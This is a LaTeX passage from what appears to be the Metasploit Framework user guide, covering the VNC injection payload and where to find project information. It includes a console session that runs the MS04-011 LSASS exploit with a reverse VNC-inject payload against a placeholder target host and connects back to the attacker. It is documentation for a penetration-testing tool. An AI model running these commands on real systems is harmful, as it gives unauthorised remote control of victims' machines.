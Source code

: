 \documentclass{report}
\begin{document}
\par
If there is no interactive user logged into the system or the screen has been
locked, the command shell can be used to launch explorer.exe anyways. This can
result in some very confused users when the logon screen also has a start menu.
If the interactive desktop is changed, either through someone logging into the
system or locking the screen, the VNC server will disconnect the client. Future
versions may attempt to follow a desktop switch. 

\par
To use the VNC injection payloads, specify the full path to the VNC server as
the value of the \texttt{DLL} option. The VNC server can be found in the data
subdirectory of the Framework installation and is named 'vncdll.dll'. The source
code of the DLL can be found in the src/shellcode/win32/dllinject/vncinject
subdirectory of the Framework installation. 

\begin{verbatim}
msf > use lsass_ms04_011
msf lsass_ms04_011 > set RHOST some.vuln.host
RHOST -> some.vuln.host
msf lsass_ms04_011 > set PAYLOAD win32_reverse_vncinject
PAYLOAD -> win32_reverse_vncinject
msf lsass_ms04_011(win32_reverse_vncinject) > set LHOST your.own.ip
LHOST -> your.own.ip
msf lsass_ms04_011(win32_reverse_vncinject) > set LPORT 4321
LPORT -> 4321
msf lsass_ms04_011(win32_reverse_vncinject) > exploit
\end{verbatim}

If the "vncviewer" application is in your path and the AUTOVNC option has been
set (it is by default), the Framework will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0}, then use
vncviewer to connect to 127.0.0.1 on port 5900. 

\pagebreak
\chapter{More Information}


\section{Web Site}
\par
The metasploit.com web site is the first place to check for updated modules and
new releases. This web site also hosts the Opcode Database and a decent shellcode
archive.  

\section{Mailing List}
\par
You can subscribe to the Metasploit Framework mailing list by sending a blank
email to framework-subscribe[at]metasploit.com. This is the preferred way to
submit bugs, suggest new features, and discuss the Framework with other users. 
\end{document}
